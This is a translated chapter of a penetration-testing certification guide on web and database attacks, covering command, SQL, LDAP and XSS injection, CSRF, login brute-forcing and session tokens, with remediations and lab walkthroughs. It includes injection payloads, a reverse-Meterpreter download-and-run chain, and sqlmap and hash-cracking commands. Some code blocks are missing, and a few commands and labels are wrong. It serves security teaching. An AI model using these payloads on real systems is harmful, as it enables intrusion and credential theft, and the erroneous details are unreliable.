**1.** 四次握手的详细图解。Msg，Message。来源：Kohlios, Christopher & Hayajneh, Thaier. (2018). A Comprehensive Attack Flow Model and Security Analysis for Wi-Fi and WPA3. Electronics. 7. 284. 10.3390/electronics7110284. [`www.researchgate.net/publication/328632250_A_Comprehensive_Attack_Flow_Model_and_Security_Analysis_for_Wi-Fi_and_WPA3/`](https://www.researchgate.net/publication/328632250_A_Comprehensive_Attack_Flow_Model_and_Security_Analysis_for_Wi-Fi_and_WPA3/)。

**2.** Vanhoef, Mathy & Ronen, Eyal. (2020). Dragonblood: Analyzing the Dragonfly Handshake of WPA3 and EAP-pwd. In IEEE Symposium on Security & Privacy (SP). IEEE. 博客：[`wpa3.mathyvanhoef.com/`](https://wpa3.mathyvanhoef.com/)。

**3.** 联邦通信委员会. (2015). FCC 执法通告，DA 15-113 No. 2015-01. [`www.fcc.gov/document/warning-wi-fi-blocking-prohibited`](https://www.fcc.gov/document/warning-wi-fi-blocking-prohibited)。

## **第 5 章**

### Web 和数据库攻击

在本章中，你将学习

• OWASP Top Ten
• 研究基于应用程序的攻击的攻击向量
• 各种基于应用程序的攻击类型
• 完成各种练习以了解 Web 测试工具的行为

在渗透测试期间，你很可能会遇到某种类型的应用程序或数据库服务器，它们将在你的授权目标列表中。当你识别出这些目标时，你需要知道如何识别最佳攻击向量、工具和攻击。但你也需要知道哪些缓解措施效果最好。记住，你作为渗透测试员的价值在于通过可用且有效的报告建议来帮助提高安全性。

#### OWASP Top Ten

在 第 1 章 中，我们了解了 OWASP 项目。OWASP 提供的资源之一是 OWASP Top Ten。在本章中，我们将更深入地探讨这些攻击中的许多，并提醒你，能够识别这些攻击和最适当的缓解措施可能对你在考试中的工作很重要。OWASP Top Ten 提供了社区对广泛组织最严重的 Web 应用程序安全风险的认识。数据是从专门从事应用程序安全的各种公司中统计编译的。主要是，这个列表是为了帮助组织了解保护 Web 服务的重要性以及某些弱点对组织可能产生的影响。

########## 注入攻击

注入攻击通常出现在存在不安全的用户可控值的地方。示例包括统一资源标识符 (URI) 中的表单和参数。测试时，你应该检查应用程序参数中可能的注入点，这些注入点可能未被 Web 应用程序验证——无论是通过客户端代码 (JavaScript) 还是使用服务器端代码，如 PHP。

作为客户端代码的示例，超文本标记语言 (HTML) 表单验证可以通过 JavaScript 处理，其中输入用户输入字段（例如姓名、电子邮件、地址等）的数据可以在用户单击“提交”按钮时通过 JavaScript 函数进行处理。如果输入字段包含无效数据，表单页面将不会被提交。然而，此过程在客户端，输入可以被用户操纵以绕过此类检查。

服务器端代码可以通过使用类似的验证规则提供额外的保护层，以确保数据在后处理过程中经过验证并正确清理（即删除无效字符）。然而，如果用户可控输入未得到妥善保护，两者都可能容易受到注入攻击。在本节中，我们将更深入地探讨不同类型的注入攻击。


**考试提示** 能够识别注入类型并了解每种类型的适当修复措施。

##### 命令注入


###### 命令注入攻击

首先，让我们谈谈命令注入攻击。具体来说，让我们讨论它们是如何工作的，如何利用 Metasploit 通过 `msfvenom` 来帮助构建自定义载荷，以及如何将这些载荷与 `multi/handler` 结合使用以生成 Meterpreter 会话。如果我们拥有了一个 Meterpreter 会话，就可以尝试提升权限并进一步向目标组织的内网渗透。


> **注意** 对于这些练习，我们从 Pentester Lab 网站的 “Web for Pentester” 练习中下载了 ISO 磁盘镜像。该 ISO 也随本书的在线内容提供（详见附录）。本练习假设你拥有一个可用的、已更新的 Kali Linux 副本，以及某种虚拟化软件（例如 VMware Workstation、VMware Player、Oracle VirtualBox 等）来托管该 ISO 磁盘镜像。

1. 启动虚拟机后，打开 Web 浏览器并导航至位于 `http://<vulnerable vm ip>` 的主页。

2. 鉴于存在以下易受攻击的 Web 参数 `ip=`，我们可以测试各种命令注入攻击，首先是确定托管 Web 应用程序的操作系统类型和架构。以下是在易受攻击参数中追加 `uname -a` 时的示例输出。我们正在寻找后台调用类型的迹象。因此，请查看响应内容以及页面显示的内容。

   

3. 现在我们知道架构是 x86，主机操作系统是 Linux (Debian)，让我们使用 `msfvenom` 创建一个漏洞利用程序，生成一个反向 Meterpreter Shell 载荷，以便我们可以通过 Metasploit `multi/handler` 接收回连。首先，让我们使用 `msfvenom` 生成名为 “cmd” 的漏洞利用程序，使用针对 x86 Linux 架构的反向 Meterpreter 载荷，连接回你的 IP 地址和本地端口 (4444/tcp)：

   

4. 然后使用 Python 在 “cmd” 漏洞利用程序所在的同一目录下，利用 `SimpleHTTPServer` 模块在端口 80 上托管一个 Web 服务器：

   ```
   # python3 -m SimpleHTTPServer 80
   ```

5. 在 Kali 机器的另一个终端窗口中，启动 `msfconsole` 并在 `msf>` 提示符下输入以下命令：

   

6. 现在，让我们串联一系列命令，让目标下载漏洞利用程序、为其添加执行位，然后执行它，以便我们获得反向 Shell。从你的 Web 浏览器中，将以下命令语法追加到 `ip=` 参数后，然后执行 HTTP GET 请求：

   

7. Web 服务器应首先执行 `wget` 从你的 Python `SimpleHTTPServer` 下载 “cmd” 漏洞利用程序，然后使用 `chmod` 添加执行位，接着执行该漏洞利用程序；作为回报，你应该会看到 Meterpreter 会话从 Metasploit 中生成，如示例所示：

   


> **注意** 如需更多练习，Portswigger 提供了一些额外练习，地址如下：[`portswigger.net/web-security/os-command-injection`](https://portswigger.net/web-security/os-command-injection)

####### 识别命令注入

命令注入通常涉及滥用名为 `exec`、`eval`、`cmd` 或 `system` 等的应用程序编程接口 (API) 函数。任何引用进程的函数（如 Python 中的 `os.popen` 或 PHP 中的 `proc_open`）也值得密切关注。通常，你会看到这些作为 `.cgi` 文件、`.pl` 文件或 `.sh` 文件，或者在 URI 中 `?` 之后看到参数。请在示例中寻找 `whoami`、`ls`、`dir` 等操作系统命令。以下是一个简单示例。

攻击前的 URI：

```
http://vulnerable-site/shopping?id=3856&name=AndersonPeachCobbler
```

攻击后的 URI：

```
http://vulnerable-site/shopping?id=1|ls&name=AndersonPeachCobbler
```

这会列出当前目录的内容。请阅读 OWASP 的 Web 安全测试指南中关于命令注入测试的章节，了解更多关于命令注入测试的信息：[`owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/12-Testing_for_Command_Injection`](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/12-Testing_for_Command_Injection)。

####### 修复建议

1. 避免让应用程序直接在操作系统中调用命令。

2. 使用编程选项在发送命令前，针对底层操作系统对命令进行转义。

3. 通过使用字符允许列表来参数化并执行输入验证（潜在的危险字符包括 `|`、`&`、`;`、`>`、`<`、`!`、`'` 和 `\`）。

4. 以尽可能低的权限运行应用程序。

请阅读 OWASP 操作系统命令注入防御备忘单，了解更多关于修复和缓解措施的信息：[`cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html`](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html)。

##### SQL 注入

为了测试 SQLi，你需要对用于对数据库执行操作的命令和语法有一定程度的了解。结构化查询语言 (SQL) 用于管理远程数据库管理系统 (RDMS) 中的数据。在 [www.sql-workbench.net/dbms_comparison.html](http://www.sql-workbench.net/dbms_comparison.html) 有一个在线参考资料，提供了可在不同 RDMS 的 SQL 语句中使用的常见 SQL 功能对比。


> **注意** 在本章中，我们将讨论并使用与 MySQL RDMS 相关的 SQL 命令语法。

你应该熟悉的常见 SQL 术语如 表 5-1 所示。


**表 5-1** 常用 MySQL 命令

###### 发现注入点

要评估某个参数（如 `id=` 字段）是否可注入，你可能需要尝试一系列注入标准，以从数据库引发错误。包含字符串值的参数在 Web GET 或 POST 请求中通常类似于以下形式：

```
http://example.com/test.php?name=John%20Smith
```

在这种情况下，`%20` 是空白字符的 URL 编码。Web 服务器或应用程序处理的 URL 不能包含空格。因此，URL 编码有助于用 `%` 和两个十六进制数字替换潜在有害的 ASCII 值。整数值在 Web GET 或 POST 请求中通常类似于以下形式：`http://example.com/test.php?id=1`


> **提示** 你可以在 [www.w3schools.com](http://www.w3schools.com) 了解更多关于 URL 编码及其他 Web 概念（如 HTML、CSS 和 JavaScript）的信息。

以下示例 PHP 代码展示了服务器如何处理 `"id="` 值的 HTTP GET 请求：


PHP 代码中的 `mysql_query()` 函数将针对 `my.store` 表构建查询，并返回 ID 字段与给定请求匹配的所有选定数据。`mysql_fetch_assoc()` 函数将返回查询产生的结果值数组。

###### 基于错误的 SQL 注入

当数据库在错误消息或应用程序响应中返回关于程序化查询结构的信息时，攻击者可以利用返回的信息针对程序逻辑构建攻击。以下是一个基于错误的结果示例：


###### 盲注 SQL 注入


当 Web 服务器显示通用错误（例如 "Sorry, your search criteria is incorrect"）时，该参数可能仍然存在漏洞，但你面对的是一个无效查询，需要对其进行排查。为了排查该查询，你可以使用所谓的盲注，这是一种在无法看到数据库输出时从数据库中泄露数据的另一种方式。利用盲注的两种常见方法是基于布尔值和基于时间。

基于布尔值的盲注是指向数据库提出真（例如 `id=1 AND 1=1`）或假（例如 `id=1 AND 1=2`）问题，并根据应用程序返回的响应来判断答案，响应可能是内容错误或空白页面。基于时间的盲注依赖于数据库暂停（或休眠）指定的时间，然后返回结果，表明 SQL 查询执行成功。例如，针对示例 PHP 代码中的 `mysql_query()` 执行基于时间的盲注可能如下所示：

```
http://example.com/test.php?id=1 and sleep(5)--
```

如果 `id=` 参数容易受到盲注攻击，网页加载将会有 5 秒的延迟。从这一点开始，你可以继续使用盲注来枚举构成数据库名、表名的有效字符，以及可能来自 `mysql.user` 表的密码/哈希值，具体取决于执行查询的数据库用户的权限。这是一种**线性搜索**，即对每个值进行评估，直到找到正确的字符：

*   如果数据库名的第一个字母是 "a"，等待 5 秒。
*   如果数据库名的第一个字母是 "b"，等待 5 秒。

**二分搜索**是另一种可以加速盲注攻击的方法，它可以从已排序的数组中确定目标值的位置。其工作原理是：二分搜索确定数组的中间元素并将其与目标值进行比较（该数组将是组成 ASCII 表的所有字符）。如果中间元素匹配，则返回该元素。然而，如果值大于中间元素的位置，则从搜索中丢弃数组的下半部分，仅使用剩余的上半部分作为搜索条件。Exploit Database 网站上的论文 "Faster Blind MySQL Injection Using Bit Shifting"（https://www.exploit-db.com/papers/17073）提供了在盲注攻击期间优化二分搜索的示例。

盲注耗时较长，但非常可行。请跟随练习，我们将演示如何使用 `sqlmap` 测试和评估 My Awesome Photoblog PHP Web 应用程序中 Web 参数的 SQL 注入漏洞。


**NOTE**   本示例假设你已从 Pentester Lab 网站的 "From SQL Injection to Shell" 练习中下载了 ISO 磁盘镜像。随附本书的在线内容也提供了此 ISO（详见附录）。对于本练习，我们假设你拥有可用、已更新的 Kali Linux 副本以及某种虚拟化软件（例如 VMware Workstation、VMware Player、Oracle VirtualBox 等）来托管 ISO 磁盘镜像。

**1.**   一旦易受攻击的 VM 在测试环境中启动并运行，请导航到 VM 托管的网页：`http://<ip address>`。

**2.**   如果你单击菜单栏上的 Test，将被带到另一个呈现发布到博客页面的附加图像的页面。URL 将填充为以下内容：

```
http://<ip address>/cat.php?id=1
```

**3.**   让我们继续测试 `id=` 参数，方法是在 id 字段的数字后面插入一个单引号（`'`），如下所示："`?id=1'`"。将 URL 提交回 Web 应用程序后，你应该会收到我们之前讨论过的 MySQL 1064 错误。

**4.**   现在我们知道数据库正在处理我们的请求，且应用程序未验证输入、也未从请求中过滤掉特殊字符，我们可以使用 `sqlmap` 测试该参数。在 Kali Linux 的命令行中，执行以下命令：

```
# sqlmap -u "http://<ip address>/cat.php?id=1"
```

`sqlmap` 命令应将数据库识别为 MySQL，并询问是否应跳过对其他 RDBMS 的载荷测试。输入 `Y` 并按 **Enter** 键。然后再次输入 `Y` 以包含针对 MySQL 的所有测试，在被询问是否继续测试其他参数时输入 `N`。


**NOTE**   `sqlmap` 将在你的用户主目录（如果使用 Kali 则为 `/root`）下的 `.sqlmap/output/<ip address>` 中输出结果（`log`、`target.txt` 和 `session.sqlite`）。

**5.**   如果我们检查日志文件，将会看到 `id` 参数通过 HTTP GET 请求进行评估，并被发现存在多种注入类型，包括：

*   基于布尔值的盲注
*   基于错误的注入
*   基于 AND/OR 的时间盲注

下图显示了注入类型以及 `sqlmap` 测试的每个给定载荷，以证明注入是可能的。


**6.**   下一步是使用 `sqlmap` 利用 SQL 注入漏洞，以从数据库中读取任意数据。如果你注意到 PHP Web 应用程序菜单栏，有一个 Admin 登录页面。让我们看看能否从数据库中提取用户和可能的哈希值，以破坏登录访问。既然这是实验室环境，让我们运行第 4 步中使用的相同 `sqlmap` 命令，但在命令语法后追加 "`-a`"，让 `sqlmap` 利用我们以数据库用户身份执行查询的权限，对 MySQL 数据库执行任何和所有操作。你将看到 `sqlmap` 能够从 "photoblog" 数据库的 "users" 表中提取用户和哈希值。它还很贴心地询问我们是否想使用字典来破解 MD5 哈希值。你可以直接按 Enter 键继续使用默认值。一两分钟内，`sqlmap` 应该能够使用其默认字典破解哈希值。


**7.**   `sqlmap` 结果再次存储在 `/root/.sqlmap/output/<ip address>` 中，其中包含一个名为 dump 的新目录，该目录包含 `sqlmap` 能够发现并枚举信息的每个数据库的子目录。`dump/photoblog/users.csv` 文件包含用于登录 Admin 页面的用户名和密码。以下是成功登录 Photoblog 应用程序的 Admin 页面：


**TIP**   你可以不使用 `sqlmap` 的 `-a option` 捕获所有内容，而是通过使用 `--tables` 查找给定 HTTP 参数下应用程序正在查询的当前数据库中的所有表，来有策略地调查你要查找的内容。然后你可以使用 `--sql-query="select * from photoblog.users"` 返回 Users 表中的每条记录。然后获取从 `sqlmap` 检索到的 MD5 哈希值，并将其传递给 John the Ripper (JtR)，配合字典和规则进行破解：`# john --format=Raw-MD5 --rules --wordlist=rockyou.txt <hash file>`

另外，使用 `sqlmap` 的 `–a` `option` 测试所有内容可能是危险的。如果数据库已在满负荷运行，同时运行的查询可能会在测试期间无意中导致数据库崩溃。在执行可能导致数据库挂起的查询（例如基于时间的攻击）后，监控数据库/Web 服务器的健康状况和状态是一种良好的实践。在生产环境中操作时，SQL 注入攻击和 `sqlmap` 的使用应与客户进一步讨论，以确保客户了解自动化 SQL 注入测试工具带来的潜在风险。

###### Union Query SQL Injection


####### SQL 注入：UNION 攻击

这种注入类型构建应用程序中已存在的两个或多个 `SELECT()` 语句，以在应用程序响应中创建单个结果。这对于获取数据库中那些未设计为暴露给允许用户交互的应用程序部分的信息通常很有用。要执行成功的 UNION 攻击，两个查询必须返回相同数量的列，并且每列中的数据类型必须匹配。

您可以使用 `ORDER BY` 来确定列的数量，直到从数据库收到错误为止。它通常会提示参数超出范围。以下是输入示例：


以及错误信息：


另一种方法是在 `UNION SELECT` 语句中使用 `NULL` 值，直到有足够的值与查询匹配且错误条件停止。以下是输入示例：


这种方法很流行，因为您也可以通过在每一列中尝试不同的值（而不是 `NULL`）来确定每列的数据类型：


当类型与特定列不匹配时，错误会指示这一点，从而让您找到适合攻击的正确类型。您可以在 [`portswigger.net/web-security/sql-injection/union-attacks`](https://portswigger.net/web-security/sql-injection/union-attacks) 阅读更多相关内容。

###### 堆叠查询 SQL 注入

这种注入通过终止原始查询并执行另一个查询来工作，例如从 `mysql.users` 表中选择所有记录。示例为 `http://example.com/test.php?id=1;select%20*%20from%20mysql.users--`。

您可以用来磨练 SQLi 技能的其他练习网站有：

*   [`portswigger.net/web-security/sql-injection`](https://portswigger.net/web-security/sql-injection)
*   [`hack.me/t/SQLi`](https://hack.me/t/SQLi)
*   [`www.gameofhacks.com/`](http://www.gameofhacks.com/)
*   [`sqlzoo.net/`](https://sqlzoo.net/)
*   Pentester Lab ([`pentesterlab.com`](https://pentesterlab.com)) 提供免费的实验室和练习，您可以用它们来展示您的渗透测试技能，包括 SQLi。

###### 识别 SQL 注入

SQL 注入通常涉及使用特定于查询语言的术语。诸如 `INSERT`、`SELECT`、`JOIN`、`UNION`、`WHERE`、`LIMIT`、`AND`、`OR` 等术语，以及提及 SQL 的错误消息，都是明显的迹象。示例通常涉及对引号（单引号或双引号）的创造性使用。以下是一个简单示例。

攻击后的 URI：

```
http://vulnerable-site/shopping?id=10 UNION SELECT 1,null,null--
```

这可能会列出表中的所有 ID。在 OWASP 的 Web 安全测试指南中，阅读更多关于 SQL 注入测试的内容，请参阅“Testing for SQL Injection”部分：[`owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection`](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/05-Testing_for_SQL_Injection)。

####### 修复建议

1.  参数化查询并通过使用字符允许列表执行输入验证。
2.  使用存储过程。
3.  转义所有用户输入。

在 OWASP OS 命令注入防御备忘单中阅读更多关于修复和缓解的内容：[`cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html`](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)。

##### LDAP 注入

应用程序可能将认证数据或数据查询传递给后端轻量级目录访问协议 (LDAP) 系统。与 SQL 注入非常相似，如果您能弄清所用查询或所发送数据格式的足够信息，就可以滥用未经清理的、用户可控的输入来修改 LDAP 查询。同样与 SQL 注入类似，LDAP 注入可能因错误而得到辅助，或根据应用程序行为盲目进行。

LDAP 规范由 RFC 4515 ([`tools.ietf.org/html/rfc4515`](https://tools.ietf.org/html/rfc4515)) 定义，基本上规定 LDAP 过滤器由括号中的键值对构成，可任意数量链接在一起。LDAP 还将 `*` 识别为通配符，`&` 为逻辑与，`!` 为布尔非，`~=` 为近似匹配，`>=` 为大于。例如，此查询将使用逻辑或（即 `|` 符号）匹配所有条目，其中通用名称 (`cn`) 匹配以 Antoine 或 Blanca 开头的任何内容，或以字符串 `inski` 结尾的内容：

```
(&(|(cn=Antoine*)(cn=Blanca*)(cn=*inski))
```

通过仔细应用逻辑，可以利用对应用程序行为的了解来猜测 LDAP 过滤器语法，并利用它来绕过认证或获取目录中的其他信息（如用户列表或其他资源）。常见的注入可能尝试在有效输入后提供 `)(&)` 来截断 LDAP 过滤器，以尝试绕过认证，或在传递给过滤器的参数中使用通配符，导致返回比预期更多值的错误条件。

###### 识别 LDAP 注入

LDAP 注入通常涉及 `ou`（组织单元）、`cn`（通用名称）或 `dc`（域组件）。请寻找键值对，例如 `ou=computers` 或 `cn=Lindsey`，它们存在于使用括号和 LDAP 使用的比较字符的注入过滤器中。

攻击后的 URI：

```
http://vulnerable-site/ldapsearch?user= *)(uid=*))(|(uid=*
```

这会列出当前目录的内容。在 OWASP Web 安全测试指南中阅读更多关于 LDAP 注入的内容，请参阅“Testing for LDAP Injection”部分：[`owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/06-Testing_for_LDAP_Injection`](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/06-Testing_for_LDAP_Injection)。

####### 修复建议

1.  使用 LDAP 编码函数转义所有变量。
2.  使用特定语言的内置安全框架与 LDAP 交互。
3.  以尽可能低的权限运行应用程序。

在 OWASP LDAP 注入预防备忘单中阅读更多关于修复和缓解的内容：[`cheatsheetseries.owasp.org/cheatsheets/LDAP_Injection_Prevention_Cheat_Sheet.html`](https://cheatsheetseries.owasp.org/cheatsheets/LDAP_Injection_Prevention_Cheat_Sheet.html)。

##### 跨站脚本

在本章的大部分内容中，我们讨论的是在服务器端被利用的攻击。然而，在基于 Web 的攻击中，客户端同样容易成为目标。服务器内容（例如 HTML 和 JavaScript）可能存在缺陷，可在受害者的 Web 浏览器或浏览器插件中被利用。源代码始终可用，因为它是在客户端执行的。OWASP 测试指南第 4 版的 第 4 章.12“客户端测试”涵盖了此类弱点的测试。跨站脚本 (XSS) 就是一个此类示例。通过 XSS，攻击者可以将客户端脚本或 HTML 代码注入到其他网页中，以窃取信息或绕过认证。此漏洞是由于服务器端缺乏输入检查导致的。XSS 漏洞有三种类型：

*   **反射型** — 在单个 HTTP 响应中注入代码。以下是成功执行反射型 XSS 的示例：

    

    示例：

    ```
    index.php?page=<script>alert('Reflected XSS')</script>
    ```

*   **存储型** — 在日志文件中注入代码以窃取并重定向会话令牌，稍后管理用户通过 Web 界面访问：

    


###### 基于 DOM 的

文档对象模型 (DOM) 在运行时从应用程序传递给浏览器，用于构建内容。与存储型或反射型 XSS 攻击会被传回服务器不同，其执行直接发生在用户的浏览器中，因为浏览器并非将每个对象都视为查询。如果日志记录仅发生在客户端，这会使检测过程更加困难。以下面传递给客户端浏览器的 DOM 对象示例为例：


URL 中 "#" 之后传递的所有内容都将在 Web 浏览器中执行：

`http://example.com/xss/example9.php#message`

仅将以下 URL：

`http://example.com/xss/example9.php#<script>alert("DOM XSS")</script>`

发送给愿意点击链接的受害者，就会导致弹出一个警告框，这非常类似于反射型 XSS 攻击。


**提示** 部分 Web 浏览器内置了内容过滤器以防止此类攻击发生。NoScript (`https://noscript.net`) 是一款基于 Mozilla 的浏览器扩展，可帮助阻止浏览器中执行不需要的脚本，并将执行限制在仅受信任的网站。

要进行更多练习，请查看 `https://portswigger.net/web-security/cross-site-scripting/stored` 上的实验室。

###### 识别 XSS

跨站脚本示例通常（但不总是）涉及 HTML 标签，包含诸如 `<`、`>`、`=` 和引号之类的符号。这些也可能经过 URL 编码（例如 `%3C`、`%3E` 等）。它可能包含对事件处理程序的引用，如 `onclick`、`onload` 或 `onmouseover`，或对其他 JavaScript 函数的调用。使用 `<script>` 标签是一个明显的特征。

包含 XSS 的恶意 POST 请求：

`postId=399&content=%3Cscript%3Ealert(%27XSS%27)%3B%203C%2Fscript%3E`

在 OWASP XSS 过滤器绕过备忘单中阅读更多关于过滤器绕过的内容：`https://owasp.org/www-community/xss-filter-evasion-cheatsheet`，以及在 OWASP WSTG 中阅读更多关于测试存储型跨站脚本的内容：`https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting`。

####### 修复建议

1.  不要将不受信任的数据插入到页面中 script 标签之间；在属性名称、标签名称或注释中；或直接插入到样式表中。
2.  不要允许应用程序从不受信任的位置运行 JavaScript 或统一资源定位符 (URL)。
3.  在将不受信任的数据插入脚本值、页面元素内容、样式属性值或 URL 参数之前对其进行编码。
4.  使用实现允许列表方法的库来清理输入值，并避免使用不安全字符，如 `<`、`>`、`%`、`*`、`+`、`-`、`/`、`;`、`=`、`|` 和 `+`。

在 OWASP 跨站脚本预防备忘单中阅读更多关于修复和缓解的内容：`https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html`

##### 跨站请求伪造

跨站请求伪造 (CSRF) 是另一种客户端注入攻击，它导致用户在受信任的网站上执行其不打算执行的操作。最危险的 CSRF 形式是用户已经使用有效会话进行身份验证时。攻击向量可能包括易受攻击的网页、博客、电子邮件等。这些攻击通常是有针对性的，一旦成功，可能导致受害者购买商品、转账或更改密码。如果受害者是管理员或拥有提升的权限，攻击可能针对在应用程序中创建或修改现有账户的能力。一个例子是在发布到新闻组的网帖中嵌入一张隐藏图片，该图片指向一个使用 "attack" servlet 进行恶意转账的请求。如果这是一个来自银行应用程序的真实 servlet，且受害者已经登录到他们的账户，那么 5,000 美元将从他们的账户转出。该消息看起来无害，且图片尺寸可以显著缩小，以至于在消息正文中不会引起太多注意。图 5-1 提供了一个场景示例，其中一条潜在无害的消息被提交给用户组。图 5-2 显示了打开消息时会发生什么的示例。


**图 5-1** CSRF 示例场景消息


**图 5-2** CSRF 示例场景消息内容

#### 攻击身份验证和会话管理

在本节中，我们将更深入地探讨针对登录表单的三种不同类型的身份验证攻击，这些攻击使用用户名、密码和经过身份验证的会话令牌。我们将介绍渗透测试人员可用于利用这些类型漏洞的各种工具和方法。这将是对该主题的 Web 专项探索。

##### 暴力破解登录页面

在 Web 世界中，身份验证表单用于从 Web 浏览器读取和处理用户提供的输入数据。一旦用户在表单字段中输入数据并点击按钮提交数据，浏览器就会执行一个 HTTP POST 请求，将消息主体发送到 Web 应用程序进行处理。当你在 Web 浏览器中查看 HTML 源代码时，HTML 表单看起来会像这样：


此表单页面示例处理来自用户的两个输入字段：用户名和密码。在渗透测试项目中，你很可能会遇到允许用户通过用户名和密码进行身份验证访问的应用服务器。这些类型的表单通常是暴力破解登录攻击的目标。


**提示** 请注意示例登录页面的 HTML 源代码中，文本字段的大小限制设置为 8，这意味着它只会处理输入框中的前八个字符。因此，如果你要构建字典或密码规则来暴力破解登录，只需将密码或规则定义为最多八个字符长度即可。

Damn Vulnerable Web Application (DVWA) (`http://dvwa.co.uk`) 是一款免费软件，作为一个易受许多常见基于 Web 攻击影响的 Web 应用程序运行。用户可以根据 GNU 通用公共许可证的条款下载、安装和修改该应用程序。我们将使用 DVWA 作为如何暴力破解登录表单页面的基本示例。设置好 DVWA 后，你可以在 Web 浏览器中使用以下 URL 访问登录页面：`http://<ipaddress>/dvwa/login.php`。登录页面将类似于 图 5-3。


**图 5-3** DVWA 登录页面

###### 字典

CeWL 是一个 Ruby 应用程序，它会爬取给定的 URL 并返回一个字典。字典可用于暴力破解目录路径或密码，如配合 Hydra 或 John the Ripper 使用。例如，如果我们要攻击一个用户名和密码未知的 Web 登录表单，你可以使用你喜欢的字典、Kali Linux 中 `/usr/share/wordlists` 下的字典，或针对目标 URL 使用 CeWL 来构建一个从目标网页抓取单词和短语的自定义字典。以下是在 Kali Linux 命令行中执行 CeWL 的示例，也如 图 5-4 所示：


**图 5-4** CeWL 命令输出

```
# cewl -v -d 2 -m 5 -w dvwa_wordlist http://192.168.1.52/dvwa
```

以下命令选项可用：

* `-v` 详细输出


###### 命令选项

- `-d` 蜘蛛爬取深度；默认为 2
- `-m` 最小单词长度
- `-w` 将输出写入文件

###### 使用字典进行攻击

现在，我们可以将字典与 Hydra 结合使用，对登录页面进行暴力破解。然而，在使用 Hydra 之前，我们需要捕获发送到服务器进行处理的 POST 请求，因为我们需要正确的参数提供给 Hydra，以便我们的暴力破解请求能够正确格式化。因此，启动你最喜欢的 Web 代理软件来拦截发往服务器的伪造登录请求。（我们使用了 Burp Proxy，但 OWASP ZAP、Firefox 开发者工具、Tamper Data 等也是可用于完成此任务的其他工具。）在 Burp 中启用代理并将 Web 浏览器配置为使用 Burp 代理端口后，我们成功捕获了发往服务器的登录请求，如 图 5-5 所示。


**图 5-5** Burp Proxy 登录请求

正如你在 POST 请求体中所见，`username=`、`password=` 和 `Login=` 是构成登录请求的三个有效参数。现在我们有了提供给 Hydra 的正确 Web 参数，可以在 Kali Linux 的命令行中执行以下语法：


示例输出如 图 5-6 所示。


**图 5-6** Hydra 命令输出

命令选项如下：

- `-l` 要登录的用户。
- `-P` 从文件加载多个密码。
- `http-post-form` 用于请求的服务模块。
- `" "` 模块选项；在本例中，我们使用 URL 和 POST 消息体。`^USER^` 和 `^PASS^` 将填充用户和密码命令选项。
- `-V` 详细模式。

根据 Hydra 的输出，我们成功利用从 DVWA 页面抓取的 13 个可能密码，识别出了 admin 用户的有效密码。当 CeWL 抓取网页底部的“提示”消息时，识别出了“password”文本。

############### 会话管理测试

Web 会话旨在陪伴用户在 Web 框架内的交互。Web 服务器或 Web 应用程序生成唯一的会话标识符，其持续时间为用户访问期间。会话 ID（或令牌）可以作为 Cookie、表单字段或 URL 存储在用户的硬盘上。每个令牌用于验证用户的会话，并可被应用程序用于在会话期间的每次事务中建立访问权限或用户设置。根据 Web 框架的配置方式，这些可能具有生存时间值。这些类型的会话是动态生成的数字，应该难以猜测。类似于哈希函数，令牌用于验证用户请求的完整性。令牌应使用随机数生成器，而不仅仅是简单地递增静态数字。否则，用户的会话可能会成为会话劫持或重放攻击的受害者。

OWASP 在其官方网站上提供了会话管理备忘单，其中描述了在为 Web 应用程序配置会话管理时的常见弱点和最佳实践。Burp Suite Pro 是一款商业软件产品，提供 Web 和 Web 应用程序安全测试功能。HTTP 响应中发现的令牌可以使用 Burp Sequencer 针对已知安全弱点进行实战测试，例如弱令牌属性、会话过期和令牌熵（或缺乏熵）。一旦确定了令牌所在字段的位置，即可开始实时捕获。如 图 5-7 所示，一旦收集到足够的数据样本，Sequencer 将分析数据并根据每个字符位置样本的随机性以及相同字符在同一位置重复的概率提供评估。


**图 5-7** 使用 Burp 评估会话随机性


**考试提示** Burp Suite Pro 是用于 Web 和 Web 应用程序渗透测试的常用工具。考试中的许多问题都与基于 Web 的测试相关。你应该对 OWASP Top Ten 2017 应用程序安全有深刻的理解，因为你可能会看到引用这些标准的问题。

大多数 Web 框架设计为使用会话令牌/Cookie 认证。基于会话的认证是有状态的，即服务器和客户端都保留会话记录。每当用户发出请求访问数据时，会话数据会在查询中提交并由服务器验证。`Set-Cookie` 头（示例：`Set-Cookie: sessionID=ksirut8jsl219485a1f459f2siper5`）包含在服务器对客户端的响应中，Cookie 值存储在客户端的浏览器中。其他属性可以伴随 `Set-Cookie` 响应头，以告知客户端浏览器如何处理 Cookie，包括：

- **HTTPOnly** 无法通过 JavaScript 访问 Cookie，例如通过 XSS 攻击窃取 Cookie。
- **Path** 这定义了 Cookie 有效的 URL。
- **Domain** 定义 Cookie 有效的域（例如 `example.com`）。
- **Expires** 这告诉浏览器将 Cookie 本地保存以进行持久化存储，并且浏览器将在未来的请求中使用它，直到过期日期。如果未设置，Cookie 仅在浏览器会话的生命周期内有效。
- **Secure** 这用于确保 Cookie 永远不会通过非加密连接（如 HTTP）传输。这有助于防止恶意用户在嗅探网络时窃取凭据。

